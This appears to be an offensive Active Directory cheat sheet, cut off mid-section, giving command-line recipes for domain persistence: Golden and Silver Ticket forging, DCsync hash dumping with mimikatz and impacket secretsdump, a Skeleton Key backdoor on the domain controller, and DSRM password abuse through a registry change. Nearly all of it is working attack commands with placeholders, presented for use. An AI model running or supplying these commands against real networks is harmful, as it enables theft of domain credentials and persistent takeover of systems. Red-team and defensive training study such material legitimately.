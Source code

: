 ## Domain Persistence

### Golden Ticket Attack
  ```
  #Execute mimikatz on DC as DA to grab krbtgt hash:
  Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>

  #On any machine:
  Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
  <HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
  ```
### DCsync Attack
  ```
  #DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges):
  Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'
  
  #DCsync using secretsdump.py from impacket with NTLM authentication
  secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm
  
  #DCsync using secretsdump.py from impacket with Kerberos Authentication
  secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
  ```
  **Tip:** \
  /ptt -> inject ticket on current running session \
  /ticket -> save the ticket on the system for later use
### Silver Ticket Attack
  ```
  Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
  <ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
  ```
  [SPN List](https://adsecurity.org/?page_id=183)
### Skeleton Key Attack
  ```
  #Exploitation Command runned as DA:
  Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>

  #Access using the password "mimikatz"
  Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
  ```
### DSRM Abuse

*WUT IS DIS?: Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!*
  
```
#Dump DSRM password (needs DA privs):
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>

#This is a local account, so we can PTH and authenticate!
#BUT we need to alter the behaviour of the DSRM account before pth:
#Connect on DC:
Enter-PSSession -ComputerName <DC's Name>

#Alter the Logon behaviour on registry:
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose

#If the property already exists:
```